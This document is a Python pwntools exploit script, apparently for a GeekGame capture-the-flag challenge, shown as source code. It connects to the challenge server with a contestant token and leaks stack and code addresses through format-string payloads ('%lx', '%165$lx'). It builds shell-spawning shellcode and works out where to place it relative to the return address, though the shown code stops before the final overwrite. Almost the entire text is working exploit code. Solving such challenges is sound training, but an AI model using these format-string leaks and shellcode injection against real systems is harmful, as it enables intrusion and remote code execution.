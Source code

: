 
```python
from pwn import *
from icecream import ic

# sh = process('./pwn')

sh = remote('prob09.geekgame.pku.edu.cn', 10009)
sh.sendlineafter(
    'Please input your token: ',
    '419:MEUCIAJK6pgIYBAyoFwq0WANA1qSkViRLHOVsB2NajlbxhH9AiEAzmCTUCGKE9DnSt61ANO8cw2GpWE6Zj-1iFuTRm8E4Vg=')

context.arch = 'amd64'
shellCode = asm(shellcraft.sh())
ic(shellCode)
ic(len(shellCode))

payload1 = b'%lx'
sh.sendlineafter(b'Please input your instruction:\n', payload1)
receivedLine = sh.recvline()
publicStringAddress = int(receivedLine.strip(), 16)

publicStringAddressRefer = 0x7fffffffdd60
ic(hex(publicStringAddress), hex(publicStringAddressRefer))


def stackReferToReal(referAddress):
    assert 0x7ffffffde000 <= referAddress <= 0x7ffffffff000
    real = publicStringAddress - publicStringAddressRefer + referAddress
    return real


returnAddress = stackReferToReal(0x7fffffffe1f8)
stringStartAddress = stackReferToReal(0x7fffffffdde0)

payload2 = b'%165$lx'
sh.sendlineafter(b'Please input your instruction:\n', payload2)
receivedLine = sh.recvline()
main108Address = int(receivedLine.strip(), 16)

main108AddressRefer = 0x7ffff7f393fd
ic(hex(main108Address), hex(main108AddressRefer))


def codeReferToReal(referAddress):
    assert 0x7ffff7f38000 <= referAddress <= 0x7ffff7fce000
    real = main108Address - main108AddressRefer + referAddress
    return real


receivedLine = sh.recvline()

assert stringStartAddress == publicStringAddress + 0x80
assert returnAddress == publicStringAddress + 0x498
ic(hex(stringStartAddress))
ic(hex(returnAddress))

shellcodeOffset = 392
endAddressOffset = 64
shellCodeAddress = stringStartAddress + shellcodeOffset
stackEndPointer = stringStartAddress + shellcodeOffset + 64
ic(hex(shellCodeAddress))
ic(hex(stackEndPointer))
```